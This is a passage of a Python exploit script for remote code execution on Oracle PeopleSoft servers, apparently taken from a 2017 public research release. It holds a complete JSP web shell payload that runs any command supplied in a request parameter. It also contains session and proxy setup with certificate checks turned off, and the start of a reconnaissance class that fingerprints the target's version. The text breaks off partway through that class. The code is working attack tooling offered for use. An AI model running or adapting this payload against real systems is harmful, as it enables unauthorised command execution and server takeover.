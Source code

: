 ```
#!/usr/bin/python3
# Oracle PeopleSoft SYSTEM RCE
# https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce
# cf
# 2017-05-17
import requests
import urllib.parse
import re
import string
import random
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
try:
    import colorama
except ImportError:
    colorama = None
else:
    colorama.init()
    COLORS = `{`
        '+': colorama.Fore.GREEN,
        '-': colorama.Fore.RED,
        ':': colorama.Fore.BLUE,
        '!': colorama.Fore.YELLOW
    `}`
URL = sys.argv[1].rstrip('/')
CLASS_NAME = 'org.apache.pluto.portalImpl.Deploy'
PROXY = 'localhost:8080'
# shell.jsp?c=whoami
PAYLOAD = '&lt;%@ page import="java.util.*,java.io.*"%&gt;&lt;% if (request.getParameter("c") != null) `{` Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) `{` out.println(disr); disr = dis.readLine(); `}`; p.destroy(); `}`%&gt;'
class Browser:
    """Wrapper around requests.
    """
    def __init__(self, url):
        self.url = url
        self.init()
    def init(self):
        self.session = requests.Session()
        self.session.proxies = `{`
            'http': PROXY,
            'https': PROXY
        `}`
        self.session.verify = False
    def get(self, url ,*args, **kwargs):
        return self.session.get(url=self.url + url, *args, **kwargs)
    def post(self, url, *args, **kwargs):
        return self.session.post(url=self.url + url, *args, **kwargs)
    def matches(self, r, regex):
        return re.findall(regex, r.text)
class Recon(Browser):
    """Grabs different informations about the target.
    """
    def check_all(self):
        self.site_id = None
        self.local_port = None
        self.check_version()
        self.check_site_id()
        self.check_local_infos()
    def check_version(self):
        """Grabs PeopleTools' version.
```